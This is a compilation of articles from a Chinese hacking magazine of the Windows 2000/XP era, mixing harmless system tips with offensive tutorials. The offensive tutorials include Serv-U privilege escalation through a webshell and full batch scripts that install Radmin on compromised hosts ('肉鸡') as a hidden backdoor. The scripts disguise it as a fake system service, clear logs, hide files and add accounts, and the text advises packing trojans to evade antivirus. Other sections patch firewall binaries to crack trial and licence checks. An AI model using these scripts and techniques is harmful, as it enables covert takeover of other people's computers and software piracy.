例如 PortLess BackDoor 就是一款典型的利用 Svchost 进程加载的后门工具。当这个后门被安装后，通过一些进程工具查看 Svchost 进程中的模块信息，可以发现有一个可疑的 DLL 文件“SvchostDLL.dll”（如图3）。并且，在“管理工具→服务”列表中会看到一项新的服务“Intranet Services”（显示名称），此服务名称为：Iprip，由 Svchost 启动，`-k netsvcs` 表示此服务包含在 Netsvcs 服务组中；同时，在注册表 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\IPRIP\Parameters]` 分支下，还可以看到“ServiceDll”键值指向调用的 DLL 文件路径和全称，这正是后门的 DLL 文件。


> **提示：**
> 在 Windows 2000 中，系统的 Iprip 服务用于侦听由使用 Routing Information 协议版本 1（RIPv1）的路由器发送的路由更新信息，在服务列表中显示的名称为“RIP Listener”。

那么，如何清除这样的后门呢？首先在服务控制台用鼠标右键单击“Intranet Services”服务，从菜单中选择“停止”，然后在注册表中删除上述的“Iprip”项。重新启动计算机，再按照“ServiceDll”键值提示的位置删除后门程序的主文件即可。最后要提醒读者的是，对注册表进行修改前，应做好备份工作，以便出现错误时能够及时还原。

# 傻瓜黑客

## 天网防火墙让流光 IV 永不过期

天下

天网防火墙个人版是由天网安全实验室研发的网络安全工具。它提供强大的访问控制、应用选择、信息过滤等功能，可以帮你抵挡网络入侵和攻击，防止信息泄露，并可与天网安全实验室的网站相配合，根据可疑的攻击信息找到攻击者，因此可以很好地保护我们的网上安全。

### 一、让流光 IV 永不过期

流光是非常出色的漏洞扫描工具，Windows98 用户所能使用的最终版本为流光 IV。其后版本不再支持 Win98。流光 IV 会在联网后校验时间并提示过期，本文介绍使用天网防火墙阻止其联网校时，从而避免过期提示。


202.108.37.35 是新浪网 www.sina.com.cn 的 IP 地址。流光 IV 会通过访问若干站点校验时间，因此需要在“天网防火墙警告信息”窗口中选择“以后都按此次操作进行”，并点击“禁止”，从而阻止其联网校时。

### 二、让天网防火墙永不过期

天网防火墙是非常好的免费个人防火墙。若出现到期提示，可用 UltraEdit 修改其主文件中的特定字节串，使其不再提示过期。文中给出了 2.51、2.5、2.46 等版本对应的检索与替换示例。

然后点击“搜索”菜单下的“查找”，在“查找内容”中输入指定十六进制串，找到后在数据区依次替换为新的字串并保存退出即可。该方法对天网防火墙 2.51 有效；2.5 与 2.46 版本需按文中给出的不同关键串处理。


UltraEdit 汉化版下载地址及文件大小说明，并建议读者体验 DIY 软件修改。

### 三、巧破广告拦截类的 FLASH 广告

文章讨论了拨号/上网卡用户在上网时常见的 FLASH 广告弹窗问题，指出其影响网速与体验，并介绍借助天网防火墙减少此类弹窗干扰的方法。

- 提示你，应用程序 mediachip.exe 要连接 Internet 是否允许通过，mediachip.exe 就是负责广告处理的程序……我们只要选择“禁止”即可，这样上网卡的 FLASH 广告就不会再下载到你的电脑里了，既可以享受到广告上网包月卡的便宜，又没有广告的打扰，真是一举两得！


去掉，用“正式”二字代替。现在，请你将光标定位到其他资源上，会弹出窗口询问你是否保存修改结果，当然选择保存了。好了，退出 eXeScope，运行天网防火墙个人版试试，看，它已经成为“正版”了！而且分文未花！

### 四、让你的天网防火墙成为正式版

最近从天天安全网下载了一款天网防火墙个人版 2.51 试用版，觉得非常不错。唯一的遗憾就是运行该软件后，在其界面中显示的是“试用版”……如果能把它改成“正式版”就好了。经过一番较量，终于让我找到了办法，在此公布出来，与大家一起分享经验和快乐。

下载并安装可执行文件资源修改软件 eXeScope。eXeScope 是一个可以修改软件资源的工具，它能在没有资源文件的情况下分析、显示不同的信息，甚至可执行文件的资源，包括 EXE、DLL、OCX 等文件资源都可以修改编辑……

运行 eXeScope，选择“文件”菜单中的“打开”，找到天网防火墙个人版主文件 PFW.exe，点击“打开”。在左侧“资源”中找到“字符串”，定位到“626”，可看到“10002,试用版”等内容（图5）。将“试用”替换为“正式”并保存。

如果你手头上没有 eXeScope，或者嫌这种方法麻烦，那么可以使用 16 进制文件编辑器 UltraEdit。用 UltraEdit 打开主程序，使用“查找”定位对应字串并替换，保存后即可得到与上面相同的结果。

```
D5 8B2875487203
636B0F5
F487203
```

### 五、让天网防火墙可以与瑞星防火墙共存

天网防火墙非常出色，不过瑞星防火墙也很不错。瑞星在安装时会检测是否已安装其他防火墙，发现后会弹出对话框并拒绝继续安装（图6）。其实可以通过修改安装文件实现共存。


先把瑞星防火墙解压到任意文件夹，使用 UltraEdit 打开 setup.exe，执行“查找”，在“查找内容”输入指定代码（图7），将匹配代码替换后保存并退出，再运行 setup.exe 即可顺利安装。

```
E81C2C000085C0741F
E81C2C000085C0EB1F
```

对了，忘记告诉大家天网防火墙的下载地址了，你可以到相关网址下载它。天网防火墙绝对是我们的网络安全保护神！


大家都知道 Serv-U 是一个 Windows 平台下使用广泛的 FTP 服务器软件。Serv-U 存在设计问题，本地攻击者可利用漏洞以 SYSTEM 权限在系统上执行命令……

……我们继续研究 WEBSHELL 的利用与防护，尝试新的方法与技术思路，通过增加文件等方式完成权限提升示例。

# 傻瓜黑客


这里要用到一个文件，servu.dll，用 WEBSHELL 把它上传到 serv-u 的安装目录下，如图2。


再在 WEBSHELL 上打开 serv-u 安装目录，打开配置文件 ServUDaemon.ini，在文件末尾添加下面的代码：

```ini
[EXTERNAL]
ClientCheckDLL=servu.dll
```

保存，如图3所示，OK，等到 serv-u 重新启动……现在在本地打开 SERV-U 的管理程序 ServUAdmin.exe，在线列表一般易分辨，输入肉鸡的 IP 地址、账号 lgsr（类似默认）、密码随便填，再连上肉鸡的 FTP 端口连接，如图4。


好了，现在可以远程管理肉鸡上的 FTP 了，可以随便添加账号，修改账号。

另外可以直接用 FTP 软件用账号 lgsr 登录，密码随便填，就可以访问肉鸡的 C 盘，上传、修改文件，并具有执行权限哦。想做什么都可以了，怎么样，简单吧！

## 狙击4899肉鸡

魔女の条件

对于 4899 肉鸡，相信大家都不会陌生吧。Radmin 远程控制软件最大的优点就是功能齐全，便于操作，能够躲避一些杀毒软件的查杀。实在是居家旅行、杀人灭口的绝好武器……

### 一、4899 空口令肉鸡缉查战

4899 空口令肉鸡是由一些 Windows NT/2000 自动攻击探测机对某段 IP 段细心扫描孕育而生的……它能够对扫描出 IIS 溢出、弱口令和 SA 空口令的电脑上传并安装远程图形控制软件 Radmin，即把 R_Server.exe、AdmDll.dll 和 raddrv.dll 上传到系统目录并运行。


由于远程上传的 Radmin 没有经过配置，因此在对方机器任务栏会出现托盘图标。这样不就成了“此地无银三百两”吗？因此托盘隐藏是非常需要和必要的。

在做我们的工作之前，要做一些准备活动。首先把 4899 空口令肉鸡设置上密码，在 Radmin 的 CMD 控件下输入命令：`r_server.exe /port:520 /pass:hackbase /save /silence`。注意参数 `/save` 保存，参数 `/silence` 后台安装。

顺便说一句，木马一定要做适当特征码修改或者加壳来躲避查杀；但也不是壳越多越安全，过度加壳可能影响功能。建议先把木马脱壳后再处理。

# 傻瓜黑客

后再加个不知名的壳（ASPack、UPX 这些加壳软件的壳已经被许多杀软列入黑客程序列表了），然后再用几款市面流行的杀毒软件在本地机器事先做个杀毒检测。这样的黑客程序才是我们的杀手锏。

前期工作制作完毕后，您就可以耐心地工作了。为了做到隐藏托盘的目的，我想了两个办法：第一，在您的机器上事先安装并配置好 Radmin，把注册表中 `HKEY_LOCAL_MACHINE\SYSTEM\RAdmin` 导出为 `radmin.reg`，这个就是绝对符合您意愿的 Radmin 配置，把 `radmin.reg` 上传到对方机器，输入命令 `regedit /s radmin.reg`。这样机器重启或者关闭后重启 Radmin 服务的时候，任务栏里的 Radmin 托盘就消失了。

- 在本机预配置 Radmin 并导出注册表为 `radmin.reg`，在目标机执行 `regedit /s radmin.reg`。
- 编写批处理文件，重置并调整 Radmin 配置。

```bat
@echo off
@r_server.exe /port:520 /pass:hackbase /save /silence
echo Windows Registry Editor Version 5.00 > ftp.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\...\Server\Parameters] >> ftp.reg
echo "DisableTrayIcon"=hex:01,00,00,00 >> ftp.reg
regedit /s ftp.reg
del ftp.reg
```


到这里菜鸟的“保鸡”反击战已经告一段落……在长期的摸索研究工作中，我发现 Windows NT/2000 自动攻击探测机的小 BUG。Radmin 3.0 影子版客户端与服务端在托盘图标显示方面有异常，任务栏中的 Radmin 托盘可能变成空白（如图2、图3）。


所以我们在运行 Windows NT/2000 自动攻击探测机扫描电脑时，把目录下释放出来的 `R_Server.exe` 替换版本后，扫描结果会出现空白提示位；继续验证后，将配置包重命名并替换上传，部分环境会出现“未上传成功”的提示（如图4）。

最终做法是把扫描结果中的 IP 列表导入 superscan，扫描我设置的 Radmin 服务端口，这样被上传 Radmin 的机器就能被定位（如图5）。


## 三、Radmin 服务端高级配置

既然我们对 Radmin 这么情有独钟，那么我们就要打造不死的超级后门木马。根据安装情况，常见服务名有两种：一种是 `radmn`（`net start radmn` / `net stop radmn`），另一种是默认的 `Remote Administrator Service`（`net start r_server` / `net stop r_server`）。

- 服务名 `radmn`：`net start radmn`，`net stop radmn`
- 服务名 `Remote Administrator Service`：`net start r_server`，`net stop r_server`
- 可通过 `r_server.exe /start` 与 `r_server.exe /stop` 控制后再替换配置。

对配置 Radmin 自解压程序时，我有两个思路供参考。第一种是替换系统服务；若对 Windows 服务管理不熟悉，可使用第二种批处理配置方式。

```bat
@echo off
@save.exe /stop
```

这样做是限定肉鸡上已经由黑客安装过 Radmin 服务，杀无赦。

### （2）替换系统 ClipBook 服务

接下来我拿系统的 ClipBook 服务开刀做下替换。编写一个批处理文件，命名为 `baby.bat`。

```bat
@echo off
@sc stop ClipBook
@sc delete ClipBook
@sc stop r_server

@del %systemroot%\system32\AdmDll.dll
@del %systemroot%\system32\raddrv.dll
@del %systemroot%\system32\R_Server.exe
@del %systemroot%\system32\dllcache\ClipSrv.exe
@del %systemroot%\system32\ClipSrv.exe
@copy %systemroot%\system32\Setup\ClipSrv.exe %systemroot%\system32\ClipSrv.exe
@copy %systemroot%\system32\Setup\raddrv.dll %systemroot%\system32\raddrv.dll
@copy %systemroot%\system32\Setup\AdmDll.dll %systemroot%\system32\AdmDll.dll

@ClipSrv.exe /install /silence
@regedit /s radmin.reg
@regedit /s server.reg

@sc config ClipBook start=auto
@sc start ClipBook
@sc delete r_server

@del radmin.reg
@del server.reg
@del sc.exe
@clss.exe
@cls
@del baby.exe
@shutdown.exe -f -r
@del first.bat
@del baby.bat
@del clss.exe
@del shutdown.exe
```

`Radmin.reg` 注册表文件是服务配置，`sc.exe` 是微软服务修改程序（比尔其实对我们还蛮不错的哦，嘿嘿），`clss.exe` 是日志清除工具（大家要养成勤扫地的习惯！），`shutdown.exe` 是关机程序，这个程序无关紧要，关键看您的性子怎么样了（急性子的黑友建议使用），`Server.reg` 就是 ClipBook 服务的描述信息了，要伪装当然要做得够专业啊。

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\ClipSrv]
...
"Description"="启用“剪贴簿查看器”储存信息并与远程计算机共享。如果此服务终止，“剪贴簿查看器”将无法与远程计算机共享信息。如果此服务被禁用，任何依赖它的服务将无法启动。"
"DisplayName"="ClipBook"
```

上面的信息是由原 ClipBook 服务所对应的注册表键值 `[HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\ClipSrv]` 提取出来的。因为分支包含了部分电脑路径和安全信息，每个电脑都有些许区别，所以把精炼的东西提取出来作为我们的伪装信息。然后，把我们所用到的工具、注册表文件、批处理文件打包。配置 RAR 高级自解压选项的时候，注意那个解压路径，写成 `%systemroot%\system32\Setup` 这个目录。

- 选择“在当前文件夹中创建”
- 在“解压后运行”输入 `baby.bat`
- 在“解压前运行”输入 `first.bat`
- 选择 RAR 高级自解压选项中的“模式”两个地方，选“全部隐藏”和“覆盖所有文件”，命名自解压缩程序为 `baby.exe`

### 2. 添加一个完全属于自己的服务的方法

#### （1）编写 `first.bat`

```bat
@echo off
r_server.exe /stop
```

#### （2）创建新服务

接下来偶为我亲爱的小马创建个服务。

- 服务名：`wmipd`
- 显示名称：`Windows Management Instrumentation Player Drivers`

编写一个批处理文件，命名为 `boy.bat`。

```bat
@echo off
@sc stop r_server

@del %systemroot%\system32\AdmDll.dll
@del %systemroot%\system32\raddrv.dll
@del %systemroot%\system32\R_Server.exe
@wmsrv.exe /install /silence
@regedit /s radmin.reg
@net start wmsrv
@attrib +r +h %systemroot%\system32\drivers\wmsrv.exe
@attrib +r +h %systemroot%\system32\drivers\admdll.dll
@attrib +r +h %systemroot%\system32\drivers\raddrv.dll
@regedit /s server.reg

@sc config Windows Management Instrumentation Player Drivers start=auto
@sc start Windows Management Instrumentation Player Drivers
@sc delete r_server
@del radmin.reg
@del server.reg
@del sc.exe
@clss.exe
@cls
@del boy.exe
@del first.bat
@del boy.bat
```

`Radmin.reg` 注册表文件是服务配置，`sc.exe` 是微软服务修改程序，`clss.exe` 是日志清除工具。`Server.reg` 就是 Windows Management Instrumentation Player Drivers 服务的描述信息了，要伪装当然要做得够专业啊。

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\wmipd]
"Description"="为 Windows Media Player 提供加载进程，及为其他的移动媒体、驱动程序和库提供基层安全协议服务。"
"DisplayName"="Windows Management Instrumentation Player Drivers"
```

然后，把我们所用到的工具、注册表文件、批处理文件打包。配置 RAR 高级自解压格式选项时候，注意那个解压路径，写成 `%systemroot%\system32\drivers` 这个目录。

- 选择“在当前文件夹中创建”
- 在“解压后运行”输入 `boy.bat`
- 在“解压前运行”输入 `first.bat`
- 选择 RAR 高级自解压缩选项中的“模式”，选择“全部隐藏”和“覆盖所有文件”，命名自解压缩程序为 `boy.exe`。

如果在 Radmin 服务已经安装的前提下，还可以用 `sc.exe` 把它的服务信息修改了，在这里我就不做演示了。

- **优点：**
  - 在系统服务中看见的是 Windows Management Instrumentation Player Drivers 服务（可以自定义）
  - 服务说明是为 Windows Media Player 提供加载进程及为其他移动媒体、驱动程序和库提供基层安全协议服务
  - 在 cmd 命令提示符下面，使用 `net start` 命令看见的是启动服务 Windows Management Instrumentation Player Drivers
  - 在进程中看见的是 `wmsrv`（可以自定义，在 `boy.bat` 文件中相应位置改一下，注意不要和已有系统进程名冲突）

## 三、Radmin 的访问权限的设置

设置恰当的 Radmin 访问权限，能够更好地方便在线教学工作的开展，还可以让高手帮助您设置一些东西和远程维护系统。设置 Radmin 的访问权限，首先要设置一个登录用的账号。

```bat
net user hackbase neugirl /add
```

输入 `r_server.exe /setup` 命令调出 Radmin 服务端设置程序。步骤1：选择“设置参数”……现在我们关键讲述下“连接确定”的设置。

- 如果是做在线教学工作或远程协助，这里选择“使用用户许可”→“连接超时自动拒绝”，超时时间（示例 30 秒）。
- 如果您要是在夜半鸡叫上建立的用户、使用远程操作，那么“连接确定”就不要设置了，以免弹出请求连接对话框。


添加到右边的会话框中，在右上角的“存取权利”中选中希望为 hackbase 该用户开启的访问权限，如图7。


具体权限分配：Special access（特殊权限）、All access（所有权限）、Full control of screen（完全控制）、File transfer（文件传送）、View of screen（查看屏幕）、Telnet、Redirect、No access（无权限）。

然后一路点 OK，回到 Radmin 服务端设置程序后点击“安装程序”，等到安装通知提示“服务安装完成”后，在 CMD 命令提示符下输入命令启动服务。

```bat
net start r_server
```

步骤3：这样您在客户机连接服务端电脑的时候就弹出“输入 NT 用户”的对话框，在这里就填写用户名：hackbase，密码：neugirl，所属域（这个可以不填写），如图8。


其中 Redirect 的意思是重定向……经实践验证：Radmin 的访问权限设置适合于 Windows 2000 和 Windows 2003 各个版本。对于 Windows XP 系统，Radmin 的 2.1 和 3.2 版本都不支持。若要对远程主机做访问权限配置，可在注册表 `HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Users` 分支中设置用户所属域的“组”及“Radmin 控制权限”等键值。

## 回忆

下面还有一个我写的批处理文件，是用来定时运行 Radmin 程序的……这里说明一下批处理文件编写的思路：首先查询本机的当前时间，然后把读取时间暂时存储在内存中，再把时间函数拆分为“小时”和“分钟”两部分……

```bat
@echo off
color 0A
cls

Rem ========以下是radmin.bat的内容========
@echo off
echo 正在查询本机的当前时间
echo.
net time \\127.0.0.1 /set /y
for /f "tokens=1,2 delims=:" %%i in ('%time%') do set /a hh=%%i & set /a mm=%%j
echo %i当前时间为%hh%:%mm%
set /a mm=%mm%+2
if /i %mm% geq 60 set /a mm=0 & set /a hh=%hh%+1
if /i %hh% geq 24 set /a hh=0
set tm=%hh%:%mm%
```

```bat
echo 设置启动AT命令运行时间为%tm%
echo.
at \\127.0.0.1 %tm% net stop r_server

Rem ==============================

echo 魔女の条件——Radmin自启动程序
echo 黑客基地——www.hackbase.com
echo

echo 爱多再过120秒，Radmin服务就会启动，请稍候
echo 请留意地使用，否则可能导致民事或刑事处罚！
echo 欢迎到黑客基地论坛发表意见或者用 QQ 联系

echo 版权所有：魔女の条件
echo OICQ:9500142
echo E-mail:lucifer@hackbase.com
```

在配置 Radmin 服务端的时候除了对程序的免杀处理，还有对其程序图标做下修改……以上就是我对 Radmin 这款宝马良驹的系统分析和经验总结，有什么不足之处，希望高手们能够加以指正……

## 让你的 XP 多系统启动菜单与众不同

使用多操作系统的朋友都知道，在电脑启动时会出现一个引导菜单……那么我们能否把这些内容改为自己喜欢的内容，玩一回操作系统 DIY 呢？当然可以，下面笔者就告诉你具体的方法和操作步骤！

首先，在“资源管理器”中找到 C 盘根目录下的 `ntldr` 文件……复制该文件到 D 盘并改名为 `ntl` 备用。重新启动电脑到多系统中的 Windows 98/Me 下，然后下载 16 进制文件和磁盘编辑软件 WinHex……在“查找文本”中输入需要启动的操作系统内容并修改保存即可。


## 给 Windows 增加一个开机口令

小如

大家都知道，Windows 9x 的安全性并不好，就拿系统的开机密码来说吧，只要略懂一些电脑知识，就可以轻松地绕过密码进入系统。其实用户完全可以自己动手来加强安全性，在此我就向大家介绍一种增强系统安全的另类方法——妙用 WinRAR 给 Windows 增加一个开机口令。

首先用记事本或其他工具新建一名为 `pass.bat` 的批处理文件，其内容为：`C:\Windows\winexplorer.exe`，然后用鼠标右键单击“pass.bat”，在弹出的快捷菜单中选择“属性”，打开该文件的“属性”对话窗口，点击切换到“程序”选项页面，选中“退出时关闭”复选项，再将“运行(R)”设置为“最小化”，单击“确定”按钮（如图1），系统就会自动在 `passwd.bat` 文件所在路径创建一个名为 `passwd.pif` 的文件。


图1

接着把 `C:\Windows\explorer.exe` 复制到其他目录（如：`D:\` 盘），将其重命名为 `winexplorer.exe` 后再移动至 `C:\Windows\` 文件夹中。

初期的准备工作已经完成，现在就请打开 WinRAR 程序，单击工具栏上的“添加”按钮，在打开的“档案文件名字和参数”对话窗口中，在“常规”选项页面的“存档选项”功能区中勾选“创建自释放格式档案文件(X)”复选框，并在“档案文件名”栏中输入新建立的压缩文件名“pass.exe”（如图2）。

点击“文件”选项卡，点击“附加”按钮来添加文件，在此把 `passwd.bat` 与 `passwd.pif` 都添加进来（如图3）。


图2


图3

切换到“高级”选项卡页面，单击“SFX 选项”按钮后就弹出了“高级自释放选项”对话框，在该界面的“常规”选项卡中，我们可以在“释放后运行”文件输入栏中输入“pass.bat”（如图4）。


图4

切换到“格式”选项卡，在“临时模式”功能区中选中“解包到临时文件”复选框，接着在“可选性问题”栏中输入开机密码提示的问题，在“访问标题”栏中输入密码提示的标题，这样我们忘记密码的时候可以通过这种方式来获得，在“覆盖方式”功能中选中“覆盖所有文件”选项（如图5）。

点击“确定”后返回到“档案文件名字和参数”对话窗口的“高级”选项页，点击“设置密码”来为 `passwd.exe` 压缩包文件设置新的访问口令，该口令就是我们为系统开机设计的口令。通过上面的设置后就完成了 `passwd.exe` 自解压文件的创建工作。


图5

将前面生成的 `passwd.exe` 文件重新命名为 `Explorer.exe`，单击“开始”→“关闭系统”，在“关闭 WINDOWS”对话框中选择“重新启动计算机并切换到 MS-DOS 方式”，点确定后就进入了 DOS 方式，将我们新建的 `Explorer.exe` 替换 Windows 系统中的 `Explorer.exe`；重启计算机后，我们将会发现，系统的开机密码不再是摆设，不输入密码或者输错密码都无法进入到 Windows 系统中。不过最后要提醒的是，对于这种安全加密方法用户可能会有一些不适（没有任务栏、无纸夹菜单等），但并不影响到系统的正常运行。

# 傻瓜黑客


想来大家现在已经为自己的 XP 系统打上了 SP2 补丁了吧！不知道你注意到没有，打完 SP2 补丁之后，在控制面板的“添加/删除程序”对话框中会添加一项叫做“设定程序访问和默认值”的选项（如图1所示）。该功能可用于指定活动（如 Internet 冲浪和发送电子邮件）的默认程序，并可指定从“开始”菜单、桌面及其他位置可访问的程序。

该功能虽然带来便利，但在多人共用电脑时，也可能被随意更改设置而造成困扰。如果不喜欢该功能，不妨将其屏蔽，具体效果可对比图1与图2。


### 方法一：注册表法

- 1. 点击“开始”→“运行”，输入 `REGEDIT` 并回车，打开注册表编辑器。  
- 2. 展开到 `[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies]`，在 `Policies` 上右键新建“项”，命名为 `Uninstall`。  
- 3. 选中 `Uninstall`，在右侧新建 `DWORD` 值，命名为 `NoChooseProgramsPage`，双击后将数值数据改为 `1`，确定并关闭注册表编辑器。  
- 4. 按“F5”刷新后生效（对应图3）。

### 方法二：组策略法

- 1. 点击“开始”→“运行”，输入 `GPEDIT.MSC` 并回车，打开组策略编辑器。  
- 2. 依次展开“本地计算机策略”→“用户配置”→“管理模板”→“控制面板”→“添加或删除程序”，在右侧找到“隐藏设定程序访问和默认页面”，双击后在“设置”对话框中将其由“未配置”改为“已启用”，确定并关闭组策略编辑器。  
- 3. 按“F5”刷新即可。

第四步：按“F5”刷新一下。现在打开“添加/删除程序”窗口查看，“设定程序访问和默认值”选项是否已经消失。如果觉得上述方法较麻烦，可以试试方法二。


## 把批处理文件转换成 .exe 文件

批处理文件在计算机的应用维护和黑客技术中经常会用到。这是一种在 DOS 时代广泛使用的文件格式。文章介绍了把 BAT 批处理文件编译为 EXE 可执行文件的方法。

### 一、如何编辑批处理文件

- 1. 用“记事本”编辑后另存为 `filename.bat`。  
- 2. 在 DOS 命令行模式下直接编辑（如使用 `copy con filename.bat`）。

```bat
copy con xiaosu.bat
net user xiaosu /add
net localgroup administrators xiaosu /add
^Z
```

这样就建立了一个文件名为 `xiaosu.bat` 的批处理文件。

### 二、将 BAT 文档编译成 EXE 文件

先用 `BAT2COM.EXE` 把 BAT 编译为 COM：`BAT2COM filename.bat`；再用 `COM2EXE.EXE` 把 COM 编译为 EXE：`COM2EXE filename.com`。转换后可提升可分发性与一定程度的隐藏性。

## 造房升级如烟

（作者：cnsaword）

文章讨论了游戏中房间等级与进入限制、如何设置游戏状态、以及快速升级和选房策略等经验。

正文继续讲解：根据房间规则调整设置，选择可进入的模式，通过合理配置提升效率，避免因等级限制影响游戏体验。


## 一劳永逸屏蔽 ActiveX 插件

文章指出网页卡顿常与 ActiveX 安装提示有关，并给出一种长期有效的管理思路：保留必要控件、屏蔽不必要在线安装。

### 1. 屏蔽 ActiveX 插件的思路

对常用的必要控件（如 Windows Update、Flash）可按需安装；其余站点触发的 ActiveX 安装尽量禁止，减少风险与干扰。

### 2. 一劳永逸的设置实战

在 IE 的“Internet 选项→安全→自定义级别”中，将“下载未签名的 ActiveX 控件”“下载已签名的 ActiveX 控件”等项设为“禁用”；遇到可信站点安装需求时临时恢复后再改回。


# 傻瓜黑客


一说到注册表，大家可能就会想到注册表里各种复杂的字段值，让人望而生畏。其实注册表也就是一种数据库，用来统一对操作系统进行管理，将各种信息资源集中起来并存储各种配置信息……

注册表文件都必须以此开头。另外对于 Windows 2000 或 Windows XP 用户，需要将“REGEDIT4”改为“Windows Registry Editor Version 5.00”……

```reg
[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]
"Window Title"="Microsoft Internet Explorer"
[HKEY_USERS\.DEFAULT\Control Panel]
"WindowTitle"="Microsoft Internet Explorer"
```

### 一、注册表文件的备份

修改注册表文件之前首先得备份注册表，以便在修改注册表出错时可以用备份文件恢复注册表……在“运行”对话框中输入 Regedit 打开注册表编辑器……


### 二、用手写注册表解决注册表被恶意修改几例

一些用户在上网的时候，IE 标题栏、默认主页、Internet 选项等经常会被莫名其妙地修改或禁用……在学写注册表之前我们首先了解注册表文件的格式。

```reg
REGEDIT4
[HKEY_LOCAL_MACHINE\SOFTWARE\Test]
"Test1"="jordan"
"Test2"=hex:23
"Test3"=dword:00000000
```

以上是注册表文件的标准文件格式……文件开头是一个“REGEDIT4”（必须大写）……

#### （1）注册表被禁用后的修复

当系统注册表被恶意修改后，常规的解决办法就是打开注册表编辑器来修复注册表。但有时连注册表编辑器都会被“管理员”禁用……


```reg
REGEDIT4
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

最后存盘为 `enable.reg`，打开“运行”对话框，点击“浏览”找到写好的注册表文件并导入……


#### （2）IE 浏览器的标题栏被修改的修复

这是一种目前最常见的修改 IE 浏览器的方式，它的反修改也很容易。新建一个注册表文件，写入以下内容：

```reg
REGEDIT4
[HKEY_LOCAL_MACHINE\Software\...]
...（用于恢复 IE 标题栏）
```

#### （3）IE 浏览器的首页被修改后的修复

这也是一个我们经常碰到的问题。简单的解决方法是在 IE 的菜单中选择“工具”→“Internet 选项”→“常规”……但有时“主页”选项也被禁用。

```reg
REGEDIT4
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]
"Homepage"=dword:00000000
```

将其导入到注册表中，就可以自定义浏览器的首页了。

#### （4）IE 浏览器的默认页及空白页被修改后的修复

解决方法如下：

```reg
REGEDIT4
[HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main]
"Default_Page_URL"="http://www.163.com"
[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]
"Local Page"="c:\\windows\\system\\blank.htm"
```

也像上边那样将其导入到注册表中，就可以了。

## 让虚拟机也上网冲浪

# 傻瓜黑客

在以前的 X 上，N 多高手介绍了各类虚拟机的使用，令小菜我目不暇接。但是很多朋友反映他们不会设置连接共享，所以虚拟机只能用来在本地做试验，无法享受网上冲浪的乐趣。这次我就给大家介绍两种共享 Internet 连接的方法。

### 方法一：共享拨号连接

共享拨号连接是一种最简单最直接的方法，它不会占用一点系统资源，而且设置非常简洁。我们先打开网络连接（图1），在你上网所用的连接上点右键选择“属性”，把“Internet 连接共享”打开（图2），并在“允许其他网络用户通过此计算机的 Internet 连接来连接”前的复选框中打勾。


最后我们在“家庭网络连接”中选择本机与虚拟机连接用的一个虚拟连接，我这里用的是“VMware Network Adapter VMnet1”，大家要根据自己的实际情况选择（图3）。另外，如果使用 ADSL，最好把“每当网络上的计算机试图访问 Internet 时建立一个拨号连接”前的复选框勾去掉，不然虚拟机一上网就拨号。


当我们确定时会弹出如图4所示的对话框。大家不要看到上面有 N 多的字就害怕，说到底就是让你把虚拟机设置成自动获取 IP 地址。好，打开虚拟机，选择“本地连接”的“属性”，找到“Internet 协议（TCP/IP）”，选择“自动获取 IP 地址”即可，如图5。


### 方法二：使用代理服务器

虚拟机要使用代理服务器上网就必须要有一个虚拟机能直接连接的主机。我们在本地计算机上安装代理服务器程序，推荐 CCPROXY。它体积小、操作简单，速度也快。其简版默认只支持 3 个用户同时连接，通常已够用。

CCPROXY 运行后如图6所示。点击主界面的“设置”打开设置对话框，在这里可以去掉不需要的服务，并把代理端口改成自己喜欢的，例如 8080，如图7。


如果你的网络中有其他计算机（如和邻居共享 ADSL），为了防止别人使用你的代理服务器，可以点击“账号”为自己的计算机设置一个账户。先在“允许范围”中设置验证类型，可以设成“IP 地址验证”更方便。新建账号后，把虚拟机的 IP 地址填入账号中；IP 不知道可在 CMD 里通过 PING 虚拟机名获取。

最后打开虚拟机的 Internet 选项，在局域网设置中启用代理服务器，IP 地址填本机 IP，端口填 CCPROXY 设置的端口（如 8080）即可。

不管你用哪一种方法，都在虚拟机中打开浏览器试试。哈哈，这时你已经发现虚拟机可以上网冲浪了，如图10。


你如果细心的话还可以发现在 CCPROXY 中还可以显示当前的网络流量，是以折线图的方式显示出来了。最后祝大家网上冲浪愉快。

（文中涉及到的程序 CCPROXY 已经收录于光盘中）


## “Cafe”

对于系统进程，大家往往都感到陌生，而且不敢轻举妄动。事实上，只要我们对系统进程有所了解，那么你就不会再有这种恐惧感了，这里为大家介绍一个系统进程管理的好帮手——Process Explorer。


这是最主要的两项配置，我们也可以根据自己的喜好重新配置，只要在选中的颜色显示项后，点击“改变”，调出调色板，进行配置。

### 一、进程管理

由于这是一款绿色免费软件，我们下载得到压缩包后只需解压到任意路径下即可使用。打开软件界面，如图1。


### 1. 基本设置

由于软件有很多我们需要查看的东西，包括系统进程细化的程序模块、DLL 进程等。首先，我们对软件进行美化和熟悉，打开“选项”→“设置字体”进行调整。


接着，我们还得了解一下软件主界面“进程”一栏中不同颜色标注高亮显示的进程所代表的意思。我们打开“选项”→“配置高亮显示”，如图3。

### 2. 进程查看

这里进程查看有很多种方式，可以分别点击主窗口进程列表顶部的“进程”“PID（进程身份标识）”“CPU（占用率）”“描述”和“公司名”项目分类进行排列管理，如图4。


这样，我们只需在要查看的未知进程上双击，调出它的属性来，并分析其各项指数，把它的功能弄清楚，从而避免染上病毒，如图5。


这里判断病毒的最好途径，我们可以在未知程序属性里点选“性能”和“性能曲线详表”，见图6、7。


一般病毒占用 CPU 线程数（曲线波动也大）和内存值都比较大，我们点中“线程”项，就可以作个大致的判别，见图8。


这样可以有效杜绝病毒进程的驻入。同时，我们如果发现某个进程异常，可以在进程列表里点击右键，选中“终止进程”，就可以终止掉可疑进程运行，如图9。


### 3. 句柄查看

